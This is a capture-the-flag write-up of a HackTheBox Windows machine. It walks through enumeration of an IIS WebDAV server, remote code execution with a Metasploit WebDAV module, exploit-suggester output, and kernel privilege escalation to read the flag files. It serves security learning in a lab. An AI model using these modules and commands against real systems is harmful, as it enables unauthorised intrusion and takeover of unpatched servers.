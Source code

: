 This HackTheBox machine is related to a previous HackTheBox machine: Granny. By achieving root on this box, I learned about exploiting a related CVE that was widely used when released.

### Enumeration 

Starting off with a basic enumeration scan: ```nmap -sC -sV -oA granny 10.10.10.14```. Here's the result:

![image](https://user-images.githubusercontent.com/41026969/71902626-76d3ba80-3130-11ea-853b-801a67433d8a.png)

We see that port ```80``` is open that's hosting an IIS webserver. Doing a previous challenge [Granny](https://github.com/BurntxNoodle/PenetrationTesting/tree/master/HTB%20-%20Granny) I learned about WebDAV and this box also seems to have some WebDAV funcitonality. I do a similar ```davtest``` scan. Here's the result:

![image](https://user-images.githubusercontent.com/41026969/71902458-1fcde580-3130-11ea-866f-baef0c1043b2.png)

Meanwhile, in the background, I run a ```gobuster``` script to see if there's any additional directories. The command I did was ```gobuster dir -u http://10.10.10.14 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt```. And this is what it found:

```
/images (Status: 301)
/Images (Status: 301)
/IMAGES (Status: 301)
/_private (Status: 403)
```

```Status: 403``` means we don't have access to that directory, ```Status: 301``` is a URL redirection, but we can access it.

So basically from our findings, we see the only open port is ```80``` with WebDAV. But with this WebDAV (unlike HackTheBox grandma), we cannot upload files so we can't upload an ```.asp``` file to execute and get a reverse shell. 

I decided to do some googling:

![image](https://user-images.githubusercontent.com/41026969/71909350-dd130a00-313d-11ea-9dde-2abd2d26ab4f.png)

[The first link](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl) by Rapid7 shows the module ```exploit/windows/iis/iis_webdav_scstoragepathfromurl```. 

### Exploitation

Using the module, configuring the settings, then later executing the exploit, we get a meterpreter shell.

![image](https://user-images.githubusercontent.com/41026969/71910480-fc129b80-313f-11ea-879e-02efc25368e2.png)

In meterpreter, I do ```shell``` to get a native windows shell. Doing a ```whoami``` check outputs ```nt authority\network service```. This isn't the administrator account.

Next, something I learned by doing this HackTheBox challenge is to migrate processes to a different process that you own or a process that's the same architecture as your exploit/payload. So for this challenge, I migrate to a process that I own (as ```nt authority\network service```. 

*NOTE: When doing this challenge, the meterpreter session kept closing randomly. I think it's due to the process that I migrated to so I suggest trying a different process if possible.

![image](https://user-images.githubusercontent.com/41026969/71935472-da7fd700-3174-11ea-9c30-ffc5595828b3.png)

### Privesc

First step I do is to use a metasploit module that will collect a list of known exploits based on the system information you have on the machine and then suggests you a list of exploits that may work. 

```
msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > use post/multi/recon/local_exploit_suggester 
msf5 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.14 - Collecting local exploits for x86/windows...
[*] 10.10.10.14 - 29 exploit checks are being tried...
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf5 post(multi/recon/local_exploit_suggester) > sessions
```

Trying the first exploit listed (```exploit/windows/local/ms10_015_kitrap0d```) that "appears to be vulnerable" by ended up crashing the box so that didn't work.

Trying the second exploit (```exploit/windows/local/ms14_070_tcpip_ioctl```) that "appears to be vulnerable" by ended up getting me a shell:

![image](https://user-images.githubusercontent.com/41026969/71937572-c4751500-317a-11ea-8da6-ff37d0e6ae50.png)

### Getting Root/User flags

Eventually I wander into this directory that contains an ```Administrator``` directory and a ```Harry``` directory that looks to be a user on the box.

![image](https://user-images.githubusercontent.com/41026969/71938216-b7f1bc00-317c-11ea-9642-ff898efbab9f.png)

Checking the ```Desktop``` inside each of those reveals the Root flag and the User flag

### Flags

Root: ```C:\Documents and Settings\Administrator\Desktop\root.txt```

User: ```C:\Documents and Settings\Harry\Desktop\user.txt```

### Sources
- [Rapid7 module for initial shell](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl)
- [HackTheBox Granny Writeup (also deals with IIS/WebDAV](https://github.com/BurntxNoodle/PenetrationTesting/tree/master/HTB%20-%20Granny)
